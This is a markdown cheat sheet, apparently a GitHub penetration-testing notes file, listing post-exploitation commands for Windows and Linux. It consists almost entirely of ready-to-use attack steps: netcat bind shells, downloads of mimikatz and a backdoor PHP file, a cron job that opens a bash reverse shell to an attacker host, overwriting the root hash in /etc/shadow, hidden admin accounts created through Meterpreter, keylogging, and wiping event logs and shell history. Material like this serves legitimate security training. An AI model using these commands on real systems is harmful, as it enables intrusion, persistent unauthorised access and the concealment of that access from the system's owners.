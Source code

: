# $\color{#009466}\textbf{General}$

<details>
<summary>$\huge{\text{Bind Shell}}$</summary>

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.
- Windows (target)
  - `nc -nvlp <PORT> -e cmd.exe` or `nc.exe -nvlp <PORT> -e cmd.exe`
- Linux (target)
  - `nc -nvlp <PORT> -e /bin/bash`
- Linux (attacker)
  - `nc -nv <IP> <PORT>`
- Windows (attacker
  - `nc.exe -nv <IP> <PORT>`

<br>
</details>

<details>
<summary>$\huge{\text{Transfer files}}$</summary>

- Windows
  - `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
- Linux
  - `wget http://<host>/backdoor.php`
- Netcat
  - `nc -nvlp 1234 > test.txt (recepient)`
  - `nc -nv <ip> <port> < test.txt (sender)`

<br>
</details>

<details>
<summary>$\huge{\text{Interactive shell}}$</summary>

- Linux
  - `/bin/bash -i`

<br>
</details>

<details>
<summary>$\huge{\text{Fully interactive shell}}$</summary>

- Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`

<br>
</details>

<details>
<summary>$\huge{\text{Keylogger}}$</summary>
 
- Metasploit
  - `keyscan_start` : start keylogger
  - `keyscan_dump` : print captured strokes

<br>
</details>

<details>
<summary>$\huge{\text{Pivoting}}$</summary>
 
- Metasploit (in meterpreter)
  - `ipconfig` : find subnet (the host may be in other network)
  - `run autoroute -s <subnet>` : **This means anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.**
    - Example:
      - `ipconfig` : IP 19.9.29.148. Netmask: 255.255.240.0
      - `run autoroute -s 10.10.0.29.0/20`
  - `run autoroute -p` : Displays active routing table.
  - auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
  - **since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload** : windows/meterpreter/bind_tcp
- Port forwarding (meterpreter/metasploit)
  - `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  - `portfwd list`
  - `nmap -sV -sC -p 1234 localhost`
  

<br>
</details>

<details>
<summary>$\huge{\text{Change user password}}$</summary>

- Linux
  - `openssl passwd -1 -salt <salt> <new_pass>`
    - -1 means weakest algorithm, -6 means strongest
    - Copy the generate entry and add it to root record in /etc/shadow
- Windows
  - `net user <username> <new_pass>`

<br>
</details>

# $\color{#009466}\textbf{Windows}$

<details>
<summary>$\huge{\text{Enumeration}}$</summary>

- System info
  - `systeminfo`
  - `whoami` : Get current user
  - `whoami /priv` : Get current user privileges. Useful for privelage escalation
  - `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  - `net localgroup` : Adds, displays, or modifies local groups
  - `net localgroup <group>` : Get group membership of user -> `net localgroup administrators`
  - `net user <user>` : Get user info
- Network Info
  - `ipconfig /all`
  - `netstat -ano` : lists info on tcp/udp ports	
  - `netsh advfirewall show allprofiles` : shows f/w status
  - `arp -a` : display arp table (arp cache to discover other IP addresses on the target network)
  - `route print` : print route table (useful during the pivoting phase of post-exploitation as it can reveal network routes)
- Processes & Services 
  - `net start` : lists services running
  - `wmic service list brief` : same as above with extra details like pid, active state, etc.  
  - `net stop <servicename>` : stop a service
  - `tasklist /svc` : list process with respecive services
  - `schtasks /query /fo list /v` : list scheduled tasks
- Automation : JAWS - https://github.com/411Hall/JAWS
  - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`     

<br>
</details>

<details>
<summary>$\huge{\text{Persistence}}$</summary>
 
- Metasploit
  - search persistence module (Windows)
  - Ex: exploit/windows/local/persistence_service
    - It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
  - You need to set a listener to receive the connection
- Enable RDP
  - with metasploit : search enable_rdp (and set session)
    - Connect to victim from attacker
      - Note: you need username and password, if you don't have the password : change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      - Note 2: you can create a new account and add it to administrator group...
  - second way with metasploit/meterpreter (auto create account and settings):
    - In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      - enables rdp service --> creates new user with the provided parameters -->  hides user from windows login screen --> adds user to Remote Desktop Users and Administrators group.


<br>
</details>

<details>
<summary>$\huge{\text{Clearing tracks}}$</summary>
 
- Metasploit/Meterpreter
  - `clearev` (clear the Application, System, and Security logs on a Windows system)
    
<br>
</details>

# $\color{#009466}\textbf{Linux}$

<details>
<summary>$\huge{\text{Enumeration}}$</summary>

- System info
  - `cat /etc/issue` Print linux distro version (Contains a message or system identification to be printed before the login prompt)
  - `uname -a` Print certain system information. One example : Useful for kernel privesc or to show architecture 
  - `env` Print environment variables
  - `lscpu` : for hardware info
  - `free -h` : for RAM usage
  - `df -h` : for disk usage
  - `dpkg -l` : list packages installed with version
- Enumerate Users
  - `whoami`
  - `groups <user>`
  - `useradd -m <user> -s /bin/bash` : Creates a user. Useful for persistence
  - `usermod -aG root <user>` : Add bob to root group. Useful for persistence
  - `lastlog` : ssh session enumerate
  - `last` : log of users logged in
- Enumerate Network
  - We want: Current IP, Internal networks, TCP/UDP services running and their respective ports, Other hosts on the network
  - `ip a`
    - Useful to discover other network
  - `cat /etc/hostname` : display hostname
  - `cat /etc/hosts` : maps IP addresses to domain
    - Useful to discover internal domain you can access
  - `cat /etc/resolv.conf` : display the domain name server
    - Many times it is the default gateway
  - Meterpreter
    - `netstat` : Display the network connections
    - `route` : View and modify the routing table
      - Note: gateway is important... it can be a DNS server, DHCP server or all in one
    - `arp -a` : Display the host ARP cache
- Processes & services
  - `ps aux | grep root` : Useful for privesc
  - `top` dynamic real-time view of a running system (like task manager)
  - `crontab -l` : display cronjob for the root user
  - `ls -al /etc/cron*` : display all file that contains cronjob
  - `cat /etc/cron*` : display the contents of all cronjob files

<br>
</details>

<details>
<summary>$\huge{\text{Persistence}}$</summary>

- Metasploit
  - search persistence module (Linux)
    - Example: post/linux/manage/sshkey_persistence (needed elevated privs - This module will add an SSH key to a specified user)
- Via SSH key
  - After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
- With cron jobs
  - Set up listener
  - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron` : create a cronjob (every minute time format)
  - `crontab -i cron`
  - `crontab -l` : crontab for the current user
  - NOTE: if the command doesn't work try with another one... revshell 

<br>
</details>

<details>
<summary>$\huge{\text{Clearing tracks}}$</summary>

- `history -c` : to clear history in linux
- `cat /dev/null > ~/.bash_history` : same as above

<br>
</details>
